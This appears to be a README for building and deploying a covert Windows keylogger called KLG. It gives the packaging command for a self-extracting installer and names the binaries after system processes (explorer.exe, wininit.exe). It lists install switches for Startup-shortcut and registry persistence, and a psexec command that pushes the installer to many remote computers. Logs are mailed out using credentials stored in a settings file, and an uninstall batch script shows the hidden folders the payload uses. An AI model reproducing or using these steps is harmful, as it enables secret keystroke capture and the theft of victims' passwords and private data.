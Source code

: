 ﻿Instructions to Build Installer
==================================

1. Zip the content containing all files with 7 zip package.7z
	- Keylogger binary - explorer.exe
	- Send Mail binary - wininit.exe
	- settings.txt CSV - LogDir, CompName, sendTo, sendFrom, Password, RetryTime, PubIPURL
	- titles.txt (Optional) - Window titles at each line. If exists, keylogger will record keystrokes under those titles only

2. Optionally modify config.txt, It must be saved in UTF-8 Encoding. Ensure right bottom corner of Notepad++ shows **UTF-8-BOM**

3. in cmd type

       copy /b 7zsd.sfx+config.txt+package.7z nklg.exe

4. Use nklg.exe to Install KLG. Use cmd switch of nklg.exe to control type of installation

        nklg.exe	Default..AU
        nklg.exe -ai0	All Users Startup Shortcut(AU)
        nklg.exe -ai1	Users Startup Shortcut
        nklg.exe -ai2	HKLM
        nklg.exe -ai3	HKCU

Note that you must have administrative rights to perform -ai0 or -ai2


Instructions to Install/Uninstall
====================================

## Install

### On Local Computer:

	Run nklg.exe as Administrator

### On Remote PC's(Remote PC names are stored in comps.txt)

	psexec @comps.txt -u administrator -c -f -i nklg.exe

## Uninstall

*uklg.bat*
```
@echo off
taskkill /f /fi "USERNAME ne SYSTEM" /im wininit.exe
taskkill /f /fi "MEMUSAGE lt 13000" /im explorer.exe
DEL /Q /A C:\ProgramData\System
ATTRIB -S -H "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
ATTRIB -S -H "C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
DEL "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\Windows*"
DEL "C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Windows*"
```

### From Local Computer

	Run uklg.bat as administrator.

### From Remote Computer

1.Create a share "\\PC-NAME\share"
2.Put uklg.bat in "\\PC-NAME\share"
3.Disable password protected sharing from advanced sharing setting on PC-NAME.(win7)
4.Run following in cmd:
`psexec @comps.txt -u administrator -i cmd /c \\PC-NAME\share\uklg.bat`
